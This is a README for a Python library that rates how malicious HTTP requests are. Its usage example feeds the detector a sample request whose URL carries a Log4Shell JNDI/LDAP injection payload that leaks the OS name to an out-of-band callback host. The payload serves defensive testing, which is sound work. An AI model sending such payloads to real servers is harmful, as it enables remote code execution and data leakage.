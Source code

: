 # httpanalyzer

This is a python library for analyzing http-request. Useful to reduce unnecessary traffic. 

## License

This project is licensed under the MIT-license. See LICENSE.txt for more information.

## Installing

Make sure pip3 is installed and up to date before executing this command.

```
pip3 install httpanalyzer
```

## Usage

Import the library:

```
import httpanalyzer
```

Create a new request instance:

```
instance = httpanalyzer.Request(http_headers, ip, url, admin_panels)
```

Print the malicious rating:

```
print(instance.malicious())
```

### Example

```
import httpanalyzer

instance = httpanalyzer.Request(
    {'accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8',
     'accept-encoding': 'gzip, deflate, br',
     'accept-language': 'en-US,en;q=0.5',
     'connection': 'keep-alive',
     'host': '127.0.0.1:80',
     'user-agent': 'curl/7.82.0'},
    '159.223.205.51',
    '/api/geojson?url=${jndi:ldap://${sys:os.name}.cd387hid68000106u4rtc.oast.me}',
    ['wp-content', 'wp-config', 'wp-includes']
)
print(f"Malicious rating: {instance.malicious() * 100}%")
```

### Admin Panels

To reduce the amount of false positives, specify all admin panels you are using. For WordPress this would be `['wp-content', 'wp-config', 'wp-includes']`.

## Dependencies

Python 3.6 or newer is required. Older versions do not work.
